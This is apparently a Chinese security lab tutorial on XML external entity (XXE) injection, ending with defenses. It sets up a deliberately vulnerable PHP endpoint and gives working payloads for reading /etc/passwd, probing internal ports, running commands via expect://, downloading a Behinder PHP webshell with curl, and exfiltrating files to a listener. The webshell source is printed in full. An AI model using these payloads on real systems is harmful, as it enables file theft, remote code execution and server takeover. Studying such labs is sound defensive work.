


# 201-A18-xml外部实体注入(XXE漏洞)

准备工作：

Centos7主机一台，安装httpd、php以及xml服务

yum -y install httpd httpd-devel php php-xml php-devel

## 一、概念

XXE注入，即XML External Entity，XML外部实体注入。通过 XML 实体，”SYSTEM”关键词导致 XML 解析器可以从本地文件或者远程 URI 中读取数据。所以攻击者可以通过 XML 实体传递自己构造的恶意值，是处理程序解析它。当引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

## 二、XML相关知识

### 1. XMl定义

(1)XML:可扩展标记语言，标准通用标记语言的子集，是一种用于标记电子文件使其具有结构性的标记语言。它被设计用来传输和存储数据(而不是储存数据),可扩展标记语言是一种很像超文本标记语言的标记语言。它的设计宗旨是传输数据，而不是显示数据。它的标签没有被预定义。您需要自行定义标签。它被设计为具有自我描述性。它是W3C的推荐标准。

(2)XML由3个部分构成，它们分别是：文档类型定义（Document Type Definition，DTD），即XML的布局语言；可扩展的样式语言（Extensible Style Language，XSL），即XML的样式表语言；以及可扩展链接语言（Extensible Link Language，XLL）。

(3).可扩展标记语言(XML)和超文本标记语言(HTML)为不同的目的而设计,它被设计用来传输和存储数据，其焦点是数据的内容;超文本标记语言被设计用来显示数据，其焦点是数据的外观。

(4) XML 不会做任何事情,XML 被设计用来结构化、存储以及传输信息。它仅仅是包装在 XML 标签中的纯粹的信息。我们需要编写软件或者程序，才能传送、接收和显示出这个信息。

(5) XML 没什么特别的。它仅仅是纯文本而已。有能力处理纯文本的软件都可以处理 XML。不过，能够读懂 XML 的应用程序可以有针对性地处理 XML 的标签。标签的功能性意义依赖于应用程序的特性.

### 2. XML语法介绍

#### 2.1 例1

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>  <!-- XML 声明。它定义 XML 的版本 (1.0) 和所使用的编码 (ISO-8859-1 = Latin-1/西欧字符集)。-->
<note>	<!--文档的根元素-->
<to>farmsec</to>	<!--根的 4 个子元素（to, from, heading 以及 body）-->
<from>sara</from>
<heading>memo</heading>
<body> Review the experiment in the afternoon!</body>
</note>  <!--根元素的结尾-->
```

该XML文档包含了sara给farmsec的一张便签。

XML文档形成一种树结构必须包含根元素，该元素是所有其他元素的父元素。

XML 文档中的元素形成了一棵文档树，这棵树从根部开始，并扩展到树的最底端，所有元素均可拥有子元素。

```xml
<root>
  <child>
    <subchild>.....</subchild>
  </child>
</root>
```

在 XML 中，省略关闭标签是非法的，所有元素都**必须**有关闭标签，如同``<xxx> </xxx>``。

XML 标签对大小写敏感，必须使用相同的大小写来编写打开标签和关闭标签。

```xml
<farmsec>这是错误的</Farmsec>
<farmsec>这是正确的</farmsec>
```

所有元素都必须彼此正确地嵌套，不能打乱顺序。

```xml
<b><i>这是错误的</b></i>
<b><i>这是正确的</i></b>
```

XML的属性值须加引号如：

```xml
<note date="08/08/2008">
```

XML 中，一些字符拥有特殊的意义，如果把字符 "\<" 放在 XML 元素中，会发生错误，这是因为解析器会把它当作新元素的开始为了避免这个错误，要使用用实体引用来代替 "\<" 字符。只有字符 "\<" 和 "&" 确实是非法的，大于号是合法的，但是用实体引用来代替它是一个好习惯。

```xml
<message>if salary &lt; 1000 then</message>
```


某些文本，比如 JavaScript 代码，包含大量 "\<" 或 "&" 字符。为了避免错误，可以将脚本代码定义为 CDATA。

CDATA 部分中的所有内容都会被解析器忽略。

CDATA 部分由 "\<![CDATA[" 开始，由 "]]>" 结束

XML 中编写注释的语法与 HTML 的语法很相似

```xml
<!--注释-->
```

### 3. XML DTD

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

通过 DTD，每一个 XML 文件均可携带一个有关其自身格式的描述、独立的团体可一致地使用某个标准的 DTD 来交换数据、应用程序也可使用某个标准的 DTD 来验证从外部接收到的数据，还可以使用 DTD 来验证自身的数据。

#### 3.1 内部的 DOCTYPE 声明

假如 DTD 被包含在XML源文件中，它应当通过``<!DOCTYPE root-element [element-declarations]>``包装在一个 DOCTYPE 声明中。

```xml-dtd
<?xml version="1.0"?>	
<!DOCTYPE note [			<!--此文档是 note 类型的文档-->
  <!ELEMENT note    (to,from,heading,body)>	<!--定义 note 元素有四个元素："to、from、heading,、body"-->
  <!ELEMENT to      (#PCDATA)>	<!--定义 to 元素为 "#PCDATA" 类型-->
  <!ELEMENT from    (#PCDATA)>	<!--定义 from 元素为 "#PCDATA" 类型-->
  <!ELEMENT heading (#PCDATA)>	<!--定义 heading 元素为 "#PCDATA" 类型-->
  <!ELEMENT body    (#PCDATA)>	<!--定义 body 元素为 "#PCDATA" 类型-->
]>
<note>
<to>farmsec</to>
<from>sara</from>
<heading> memo </heading>
<body> Review the experiment in the afternoon!</body>
</note>
```

#### 3.2 外部文档声明

假如 DTD 位于 XML 源文件的外部，那么它应通过``<!DOCTYPE root-element SYSTEM "filename">``被封装在一个 DOCTYPE 定义中。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>farmsec</to>
<from>sara</from>
<heading> memo </heading>
<body> Review the experiment in the afternoon!</body>
</note>

包含 DTD 的 "note.dtd" 文件内容应该为：
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

### 4. xml的协议支持

| Libxml2 | PHP            | Java   | .NET  |
| ------- | -------------- | ------ | ----- |
| file    | file           | http   | file  |
| http    | http           | https  | http  |
| ftp     | ftp            | ftp    | https |
|         | php            | file   | ftp   |
|         | compress.zlib  | jar    |       |
|         | compress.bzip2 | netdoc |       |
|         | data           | mailto |       |
|         | glob           |        |       |

## 三、XXE漏洞利用

登录云主机，将以下代码命名为``farmsec.php``保存到``/var/www/html``下

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```


访问http://ip/famrsec.php ,使用burp抓包，并改为post方式


### 1. 读取本地文件

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]>
<creds>&goodies;</creds>
```


当文件含有特殊字符（"\<" 和 "&"）时，这个方法将会报错或无返回,如查看一个php文件时\<?php会被当作新元素。


这时候就需要借助CDATA，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记。

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///var/www/html/farmsec.php">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://192.168.11.241/farm.dtd">
%dtd; ]>
<roottag>&all;</roottag>
```

在另一台服务器或者本服务器的/var/www/html目录创建一个farm.dtd(也可以用Python的httpserver：``python –m SimpleHTTPServer 80``),内容如下

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```


### 2. 内网ip探测

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.11.2"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断ip是否存在，可以通过burp爆破模块遍历端口


### 3. 内网端口探测

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.11.2:22"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断端口是否开放，可以通过burp爆破模块遍历端口，如果有报错，可以直接探测出banner信息。


### 4.命令执行

这种情况很少发生，但有些情况下攻击者能够通过XXE执行代码，这主要是由于配置不当/开发内部应用导致的。如果我们足够幸运，并且PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，那么我们就可以执行命令。

#### 4.1 安装php-expect模块

```shell
yum -y install epel-release wget
yum makecache
yum -y install expect expect-devel tcl tcl-devel tk tk-devel gcc gcc-c++
wget http://pear.php.net/go-pear.phar -O go-pear.php
php go-pear.php
```


回车确认配置目录，需要修改配置输入标号后即可设置，yum安装的可以直接回车

```shell
pecl search expect
pecl install expect
echo "extension=expect.so" >> /etc/php.ini
systemctl restart httpd
```


#### 4.2 构造命令执行

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY Fsec.io SYSTEM "expect://whoami" >]>
<creds>&Fsec.io;</creds>
```


执行带空格的命令需要使用``$IFS''``代替空格（仅限Linux）

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY Fsec.io SYSTEM "expect://cat$IFS'/etc/passwd'" >]>
<creds>&Fsec.io;</creds>
```


#### 4.3 上传木马


在另一台服务器或者本服务器的/var/www/html目录创建一个shell.php(也可以用Python的httpserver：python –m SimpleHTTPServer 80),内容为冰蝎默认PHP马。

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```


在执行下载之前需要确认靶机apache用户具有写入权限。

```shell
chown -R apache:apache /var/www/html
```

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY Fsec.io SYSTEM "expect://curl$IFS-O$IFS'192.168.11.241/shell.php'" >]>
<creds>&Fsec.io;</creds>
```


使用冰蝎连接靶机


## 四、无回显注入

将代码保存为``farmsec2.php``到服务器``/var/www/html``目录

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```


这时候访问该网页使用读取本地文件的payload已经没有返回数据了


### 1. 外带数据读取文件

```xml-dtd
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http:// 192.168.11.241/farm2.dtd">
%dtd;
%send;
]>
```

在另一台服务器或者本服务器的/var/www/html目录创建一个farm2.dtd(也可以用Python的httpserver：python –m SimpleHTTPServer 80),内容如下

```xml-dtd
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http:// 192.168.11.241:9999/?id=%file;'>"
> 
%all;
```

在发包之前监听一下另一台服务器的9999端口



发包后再监听窗口查看数据


将该base64解码



## 五、防御方案

### 1. 使用开发语言提供的禁用外部实体的方法

PHP：

```php
libxml_disable_entity_loader(true);
```

JAVA:

```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python：

```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

### 2. 过滤用户提交的XML数据,对变量：``<!DOCTYPE``和``<!ENTITY``，或者，SYSTEM和PUBLIC进行过滤.

### 3. 检查所使用的底层xml解析库，默认禁止外部实体的解析

### 4. 使用第三方应用代码及时升级补丁

### 5. 同时增强对系统的监控，防止此问题被人利用

### 6. 对于PHP,由于simplexml_load_string函数的XML解析问题出在libxml库上,所以加载实体前可以调用这样一个函数

```php
<?php
libxml_disable_entity_loader(true);
?>
```

### 7.对于XMLReader和DOM方式解析,可以参考如下代码:

```php
<?php
// with the XMLReader functionality:
$doc = XMLReader::xml($badXml,'UTF-8',LIBXML_NONET);
// with the DOM functionality:
$dom = new DOMDocument();
$dom->loadXML($badXml,LIBXML_DTDLOAD|LIBXML_DTDATTR);
?>>
```
